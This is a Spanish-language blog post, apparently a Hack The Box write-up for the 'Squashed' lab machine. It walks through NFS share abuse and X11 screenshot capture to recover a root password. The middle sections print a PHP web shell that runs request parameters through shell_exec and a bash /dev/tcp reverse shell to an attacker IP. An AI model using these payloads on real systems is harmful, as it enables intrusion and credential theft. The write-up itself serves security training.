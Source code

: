 ```yaml
---
layout: single
title: Squashed - Hack The Box
excerpt: "En esta maquina se toca estos temas: Abusar de los propietarios asignados a los recursos compartidos de NFS mediante la creación de nuevos usuarios en el sistema  (Obtener acceso a la raíz web). Creación de un shell web para obtener acceso al sistema. Abuso del archivo .Xauthority (Pentesting X11). Tomar una captura de pantalla de la pantalla de otro usuario." 
date: 2023-04-17
classes: wide
header:
  teaser: /assets/images/HTB/writeup-squashed/Squashed.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - Easy
  - CFTs
tags:
  - Privilege Escalation
  - Pentesting
  - Linux
  - NFS mount
---
```


![](/assets/images/HTB/writeup-squashed/Squashed.png)

***


**INDICE**

1. [Introducción](#Introducción)
2. [Reconocimiento](#reconocimiento).
    * [Reconocimiento de Puertos](#recon-nmap).
3. [Puertos](#Puerto2049).
4. [Escalada de Privilegios .Xauthority](☣️). 


    
***


## Introducción


"En esta maquina se toca estos temas: Abusar de los propietarios asignados a los recursos compartidos de NFS mediante la creación de nuevos usuarios en el sistema  (Obtener acceso a la raíz web). Creación de un shell web para obtener acceso al sistema. Abuso del archivo .Xauthority (Pentesting X11). Tomar una captura de pantalla de la pantalla de otro usuario."



Reconocimiento [#](reconocimiento) {#reconocimiento}



## Reconocimiento de Puertos [🔍]

Como siempre antes de escanear los puertos con **Nmap** le hacemos un <span style="color:red"> ping </span> a la maquina victima para ver si esta viva y nos responde.


![](/assets/images/HTB/writeup-squashed/TrazaICMP.png)


En este caso nos responde y me arroja una **TTL** de 63, por lo que acercarse a 64, me enfrento a una maquina <span style="color:green"> Linux </span>.

| TTL    | Sistema Operativo | 
| :----- | :------- | 
| 64     | Linux    | 



Una vez que ya me comunique con la maquina y extraje el dato que es se trata de una maquina Linux, procedo a desplegar la herramienta Nmap.


```bash
# Primer con nmap  para sacar los puertos abiertos de la máquina
--------------------------------------------------------------
nmap -p- -n --open -sV --min-rate 5000 -vvv -n -Pn 10.10.11.191 
```

![](/assets/images/HTB/writeup-squashed/nmap1.png)


```bash
# Segundo escaneo con los scripts default de nmap y tambien sacamos  la Versión y Servicio que tiran los puertos escaneados anteriormente 
--------------------------------------------------------------
nmap -sC -sV -p22,80,111,2049,39033 10.10.11.191
```

![](/assets/images/HTB/writeup-squashed/nmap2.png)


## Puerto 2049 


Por lo que veo obtengo esta información, me doy cuenta que hay petisiones **nfs** en el **Puerto 2049**, al ser mi primera maquina de <span style="color:green"> HackTheBox </span>, acudo a <span style="color:red"> HackTricks </span>
para saber sobre NFS.

- [Recurso extraido de HackTricks](https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting)



```bash
# Primero hay que avriguar  que carpetas tiene el servidor disponibles para montar, lo averiguamos con este comando
--------------------------------------------------------------------------------
showmount -e <IP>
```

![](/assets/images/HTB/writeup-squashed/showmount.png)

Obtengo estos dos directorios:

|  /home/ross  |  /var/www/html  |

Y para montar estos dos directorios, me creo dos directorios llamados **/mnt/ross** y **/mnt/web_server** en el directorio **/mnt** y luego los monto


```bash
# Creo los directorios
----------------------
sudo mkdir /mnt/ross
sudo mkdir /mnt/web_server
# Monto los directorios en cada carpeta
sudo mount 10.10.11.191:/home/ross /mnt/ross
sudo mount 10.10.11.191:/var/www/html /mnt/web_server
```

Una vez que hecho esto, listo los directorios a ver que encuentro...


![](/assets/images/HTB/writeup-squashed/listadodedirectorios.png)


Veo que existe un archivo  <span style="color:red">Passwords.kdbx</span> que  básicamente su extension <span style="color:red">.kdbx</span> indica que es la base de datos que usa keepass para almacenar las contraseñas, tambien se ve que en directorio **./we_server** no despliega nada, voy a ver si puedo acceder a el...


![](/assets/images/HTB/writeup-squashed/cdwebserver.png)

Ok no tengo acceso a el, voy a ver que usuario tiene acceso el directorio


![](/assets/images/HTB/writeup-squashed/usuarioquetieneprivilegio.png)

Ok pensando un poco podria burlar el **user1** creando uno en mi maquina 


![](/assets/images/HTB/writeup-squashed/directorioswebserver.png)

Como estoy en el directorio del servidor web y veo el archivo **index.html** , probare intentar cargar un archivo .php para poder poder ejecutar cualquier comando en la **URL**

```bash
# Script php
----------------------
<?php   
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Una ves ejecutado este script puedo ejecutar cualquier comando en la URL

![](/assets/images/HTB/writeup-squashed/cmd=ls-l.png)

Entonces puedo crear una Reverse Shell, pero antes me pongo en escucha con el puerto 1337 (en mi caso)



```bash
# Reverse Shell, encodear co el signo % al signo &
----------------------
bash -c "bash -i >%26 /dev/tcp/<IP ATACANTE>/1337 0>%261"
```

![](/assets/images/HTB/writeup-squashed/reverseshell.png)

Antes de continuar actualizo la tty 

```bash
> script /dev/null -c bash
--------------------------
> Ctrl+z
--------------------------
> stty raw -echo; fg 
        reset xterm
--------------------------
export TERM=xterm
export SHELL=bash
```



# Escalada de Privilegios .Xauthority ☣️


Para <span style="color:red">conseguir la escalada de privilegios sigo estos pasos</span>:

* Primero me creo otro usuario para tener acceso al archivo .Xauthority.

* Pero no tegno acceso al archivo. 


![](/assets/images/HTB/writeup-squashed/usuarioquetieneprivilegio.png)

* Monto un servidor http con python3 en el puerto 8080 en el usuario que me cree hace un momento.

```bash
# Servidor python3 
------------------
python3 -m http.server 8080
```

* Una vez ya descargado el archivo **.Xauthority**, con ayuda HackTricks busco el comando para poder leer dicho archivo.

- [Recurso extraido de HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11)


No lo puedo leer, entonces saco un screenshot a la seccion keepas abierta del usuario 



```bash
# Ejecuto el comando sacado de HakcTricks y lo guardo como archivo screenshot.xwd
------------------
xwd -root -screen -silent -display :0 > screenshot.xwd
```


![](/assets/images/HTB/writeup-squashed/Screenshotxwd.png)


Lo siguiente que hago es migrar a mi usuario de Kali para ponerme en escucha en el puerto 443, haci enviarme el archivo screenshot.xwd, dicho archivo se encuentra en el usuario **alex**


```bash
# Covierto el archivo .xwd a .png (esto comando se encuentra en HackTricks, el enlace anteriormente mencionado)
------------------
convert screenshot.xwd screenshot.png
```


![](/assets/images/HTB/writeup-squashed/convert.png)

Abro el screenshot y listo ahi se ve la **password**


![](/assets/images/HTB/writeup-squashed/screenshot.png)


Por ultimo me dirijo al usuario alex y con las **password** <span style="color:red">cah$mei7rai9A</span> para comvertirme en usuario **root**



![](/assets/images/HTB/writeup-squashed/rootalex.png)

Ya tenemos acceso a la <span style="color:red"> **Flag**

